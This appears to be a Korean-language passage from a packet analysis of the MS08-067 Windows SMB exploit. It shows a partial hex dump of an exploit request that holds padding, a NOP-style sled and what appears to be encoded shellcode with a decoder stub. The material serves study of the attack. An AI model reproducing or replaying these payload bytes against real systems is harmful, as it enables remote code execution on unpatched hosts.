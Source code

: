 ![90번째 패킷](/images/ms08-067-packet-analysis-01.png)


패킷덤프 내용은 다음과 같다. 775바이트이다. 위쪽은 각종 프로토콜에서 사용되는 부분이고, 주소 0x0086부터의 642바이트가 데이터이다. 

```
0000   08 00 27 93 43 a5 08 00 27 64 4c ed 08 00 45 00   ..'.C...'dL...E.
0010   02 f9 5d 30 40 00 40 06 e8 af c0 a8 38 66 c0 a8   ..]0@.@.....8f..
0020   38 68 a9 75 01 bd 0a 38 99 e6 d0 f4 a2 7c 80 18   8h.u...8.....|..
0030   01 f5 f5 0a 00 00 01 01 08 0a ec 4b f3 4e 00 03   ...........K.N..
0040   00 89 00 00 02 c1 ff 53 4d 42 2f 00 00 00 00 18   .......SMB/.....
0050   01 28 00 00 00 00 00 00 00 00 00 00 00 00 01 08   .(..............
0060   e5 76 03 08 c9 73 0e ff 00 00 00 05 40 00 00 00   .v...s......@...
0070   00 ff ff ff ff 08 00 82 02 00 00 82 02 3f 00 00   .............?..
0080   00 00 00 82 02 05 00 00 03 10 00 00 00 cc 02 00   ................
0090   00 00 00 00 00 b4 02 00 00 0e 00 1f 00 3e 94 86   .............>..
00a0   de 08 00 00 00 00 00 00 00 08 00 00 00 4f 00 41   .............O.A
00b0   00 51 00 59 00 4c 00 51 00 45 00 00 00 35 01 00   .Q.Y.L.Q.E...5..
00c0   00 00 00 00 00 35 01 00 00 5c 00 65 70 66 50 59   .....5...\.epfPY
00d0   5a 6b 66 6d 71 51 66 4f 68 45 72 72 6d 52 6e 67   ZkfmqQfOhErrmRng
00e0   77 72 57 61 6d 4a 42 55 4e 41 67 4d 64 55 4a 58   wrWamJBUNAgMdUJX
00f0   51 77 58 6d 54 53 62 66 70 55 72 77 5a 48 5a 4c   QwXmTSbfpUrwZHZL
0100   71 61 72 50 70 4a 52 44 54 6a 61 72 6f 69 77 44   qarPpJRDTjaroiwD
0110   68 6f 69 74 6b 6c 65 4c 54 61 51 74 6a 43 73 53   hoitkleLTaQtjCsS
0120   68 59 4f 72 4d 78 74 65 44 45 46 6a 62 47 48 98   hYOrMxteDEFjbGH.
0130   49 f9 98 98 d6 3f 49 fc 42 fc 93 9f 49 99 4a 92   I....?I.B...I.J.
0140   47 90 fc 93 fd 37 fc fd 49 4b 4f 4e 48 91 f9 9f   G....7..IKONH...
0150   91 90 9b fc 4f 4f 48 4b 92 98 91 91 fd 46 f5 47   ....OOHK.....F.G
0160   f8 fc 90 fd 48 eb 23 5b 89 df b0 a6 fc ae 75 fd   ....H.#[......u.
0170   89 f9 89 de 8a 06 30 07 47 66 81 3f 65 30 74 08   ......0.Gf.?e0t.
0180   46 80 3e a6 75 ee eb ea ff e1 e8 d8 ff ff ff 91   F.>.u...........
0190   a6 10 55 c5 63 6e 6e 10 75 61 6e 6e 6e 6d 79 1e   ..U.cnn.uannnmy.
01a0   91 91 91 f1 a0 43 f5 1a c3 a1 18 74 1a c3 9d 1a   .....C.....t....
01b0   c3 85 9e 26 db b7 1a e3 b9 a0 6e a0 51 3d ad f0   ...&......n.Q=..
01c0   ed 93 bd b1 50 5e 9c 90 56 d8 e4 7e c3 c6 1a c3   ....P^..V..~....
01d0   81 1a d3 ad 90 41 1a d1 e9 14 51 e5 dd 90 41 1a   .....A....Q...A.
01e0   c9 b1 90 42 c1 1a d9 89 14 58 e5 ad d8 a0 6e 1a   ...B.....X....n.
01f0   a5 1a 90 47 a0 51 50 5e 9c 3d 90 56 a9 71 e4 65   ...G.QP^.=.V.q.e
0200   92 ec 69 aa ec b5 e4 71 c9 1a c9 b5 90 42 f7 1a   ..i....q.....B..
```